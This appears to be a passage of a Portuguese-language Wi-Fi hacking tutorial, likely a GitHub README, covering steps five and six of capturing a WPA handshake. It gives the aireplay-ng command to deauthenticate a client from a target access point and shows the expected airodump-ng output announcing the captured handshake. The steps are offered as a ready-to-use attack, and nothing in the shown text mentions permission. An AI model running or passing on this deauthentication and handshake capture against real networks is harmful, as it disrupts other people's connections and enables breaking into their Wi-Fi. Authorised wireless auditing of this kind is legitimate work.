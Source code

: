 
_________________________________________________________________________________________________________________________________________________________ 
 # Quinto passo
 ##### Enquanto o trafego do alvo é capturado, você devera fazer um ataque de Deauthentication em um dispositivo que está conectado ao AP, para ele ser desconectado. Em seguida o dispositivo irá se conectar de novo automaticamente (ou manualmente por alguém). E é nessa hora que o HANDSHAKE é capturado...
 
 ##### Para desautenticar uma STATION de um AP sera usado o aireplay-ng:
 ```
 $ aireplay-ng -0 1 -a <macAP> -c <macSTATION> <interface>
 ```
 > -0 especifica o Deauthentication attack   
 > 1 é o número de deauths a serem enviados  
 > -a mac do AP alvo   
 > -c mac do dispositivo cliente para desautenticar 
 ##### Obs: mandar poucos deauths pois pode influênciar na captura do trafego
 
 ##### A saida sera parecida com essa:
 ```
 12:35:25  Waiting for beacon frame (BSSID: 00:14:6C:7E:40:80) on channel 9
 12:35:25  Sending 64 directed DeAuth. STMAC: [00:0F:B5:AE:CE:9D] [ 61|63 ACKs]
 
 [ ACKs recebidos da STATION | ACKs recebidos do AP]
 ```
 
 
 
 
_________________________________________________________________________________________________________________________________________________________
 # Sexto passo
 ##### Se o Quinto passo for bem sucedido, no terminal do airodump-ng capturando os pacotes irá aparecer o seguinte [ WPA handshake: 00:14:6C:7E:40:80
 Exemplo:
 ```
	 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: 00:14:6C:7E:40:80
                                                                                                            
          BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
          00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN              NETGEAR                         
          00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP         bigbear 
          00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP   PSK  teddy       
 ```
 
 ##### Depois do handshake capturado você já pode encerrar a captura e se você verifcar o diretorio atual, vera alguns arquivos incluindo a captura do trafego( arquivo.cap)
 